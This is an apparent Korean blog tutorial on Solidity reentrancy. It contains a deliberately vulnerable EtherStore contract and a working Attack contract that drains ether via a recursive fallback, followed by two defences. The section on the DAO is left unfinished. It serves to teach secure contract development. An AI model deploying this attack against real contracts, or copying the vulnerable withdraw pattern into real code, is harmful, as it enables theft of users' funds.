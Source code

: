 ```yaml
---
emoji: 🧢
title: Reentrancy Attack (재진입 공격)?
date: '2021-12-15 02:26:00'
author: 한성원
tags: EVM Reentrancy ReentrancyAttack
categories: SmartContractVulnerabilities
---
```



# 👋 Reentrancy Attack (재진입 공격)


## 들어가기전
### Fallback 함수?
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다. 
0.6이전 버전에서는 fallback이 ether는 것과 존재하지 않는 함수의 대비책으로 사용되었지만 0.6 이후 버전부터 fallback은 fallback과 receive로 나누어졌다. 0.6부터는 fallback을 사용하지 않고 receive를 통해 이더를 받을 수 있다.

## Reentrancy Attack(재진입 공격)이란?
Reentrancy Attack은 contract A가 하나의 user로써 contract B 에게 transaction을 보낸다. 이때 contract A가 요청에 대한 제어권을 가지게된다. 그렇게 되면 contract A가 보낸 첫번째 요청이 끝나기 전에 다른 함수를 계속해서 호출 할 수 있게된다. 이는 재진입을 ether를 빼올 수 있게 된다.

## Example Code
예시를 하나 보도록 하자! 
첫번째 contract A는 ether를 보관하는 곳
두번째 contract B는 A를 공격하는 contract이다.

그대로 remix를 사용해 테스트해보면 이해가 빠를 것이다!
```solidity

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    
}
```

```solidity 
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
-  <span style="color:grey">출처: https://solidity-by-example.org/hacks/re-entrancy/</span>  

__EtherStore contract__ 를 보면 deposit과 withdraw 함수가 존재한다. 
- deposit 함수를 원하는 만큼의 ether를 보관할 수 있게 해주는 함수이다.
- withdraw 함수는 자신이 보관한 ether를 가져올 수 있는 함수이다. 

__Attack contract__ 에는 attack과 fallback함수가 존재한다.
- attack 함수는 ether 하나를 deposit하고 이후 바로 withdraw 한다
- fallback 함수에는 ether가 1이상 보관되어 있다면 withdraw함수를 다시 부른다.

함수가 호출되는 순서는 다음과 같다
```
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- ...(이후 반복)
```

1. 공격자가 attack 함수를 통해 EtherStore에 1 ether를 deposit한다
2. 이후 EtherStore에 1 ether를 찾겠다고 withdraw 함수를 호출한다.
3. withdraw 함수가 호출되면 attack 함수의 fallback function이 호출된다.(이더를 가져오기 때문에!)
4. 이후 fallback function 안에 있는 withdraw함수를 재호출 하게된다.
5. 이후 3-4 과정이 반복되며 재진입 공격이 성공한다.

이처럼 재진입 공격을 통해 부당한 이득을 취할 수 있게된다.


## Reentrancy Attack(재진입 공격) DAO?
Reentrancy Attack은 DAO


## How to prevent?
그렇다면 reentrency attack은 어떻게 예방 할 수 있을까?

Reentrency attack은 예방하는 방법은 총 2가지로 나눌 수 있다. 
1. openzeppline의 ReentrancyGuard contract의 noReentrant modifier 사용하기
    -  openzeppline Library는 secure smart contract 개발을 위한 Library이다.
    - noReentrant modifier의 코드는 이러하다. 
    ```solidity
        modifier nonReentrant() {
        // On the first call to nonReentrant, _notEntered will be true
        require(_status != _ENTERED, "ReentrancyGuard: reentrant call");

        // Any calls to nonReentrant after this point will fail
        _status = _ENTERED;

        _;

        // By storing the original value once again, a refund is triggered (see
        // https://eips.ethereum.org/EIPS/eip-2200)
        _status = _NOT_ENTERED;
    }
    ```
    함수 뒤에 noReentrant를 붙혀주는 것으로 쉬게 사용 가능하다.

2. Check-Effects-Interaction 패턴
  -  함수 내에서 interaction이 일어나기 전 check와 effect를 다 적용하는 패턴이다. 위 예제의 withdraw 함수 같은 경우 effect 부분이 interaction 부분 다음에 있는 것을 볼 수 있다. 
  - Check-Effects-Interaction 패턴을 적용하게 되면 interaction하기 전에 먼저 balance에 대한 데이터가 바뀜으로 reentrency하게 되어도 require문에 걸리게 된다.
  

  ```solidity
  function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); // interaction 부분!!
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0; // effect!!
    }
  ```
  
## 마치며
"블록체인은 해킹 당하지 않는다!" 라는 것은 맞는 말이지만 블록체인 위에서 만들어지는 smart contract는 그렇지 않다. 코드를 조금이라도 잘못 짜게되면 Reentrency attack과 많은 취약점들이 생길 수 있다. 그럼으로 앞으로 취약점들에 대해 공부해 smart contract를 만들때 유의하도록 하자!!

```toc

```